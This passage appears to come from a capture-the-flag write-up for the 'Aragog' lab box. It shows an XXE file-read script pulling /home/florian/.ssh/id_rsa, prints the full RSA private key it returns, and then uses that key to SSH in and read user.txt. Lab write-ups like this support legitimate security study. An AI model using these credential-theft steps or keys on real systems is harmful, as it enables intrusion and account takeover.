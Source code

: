 

And, we can get try to get ssh keys. We don't find one for cliff:



    root@kali# ./xxe_get_file.sh /home/cliff/.ssh/id_rsa

    There are 4294967294 possible hosts for



But we do for florian:



    root@kali# ./xxe_get_file.sh /home/florian/.ssh/id_rsa

    There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
    +YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
    lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
    1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
    Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
    d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
    AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
    TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
    9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
    /oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
    0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
    sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
    Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
    zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
    rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
    tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
    HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
    I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
    ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
    HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
    kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
    4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
    7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
    daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
    uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
    -----END RSA PRIVATE KEY-----



florian's key is enough to get a shell, and user.txt:



    root@kali# ssh -i ~/id_florian-aragog florian@10.10.10.78
    Last login: Fri May 11 04:15:31 2018 from 10.10.15.134
    florian@aragog:~$ wc -c user.txt
    33 user.txt
    florian@aragog:~$ cat user.txt
    f43bdfbc...


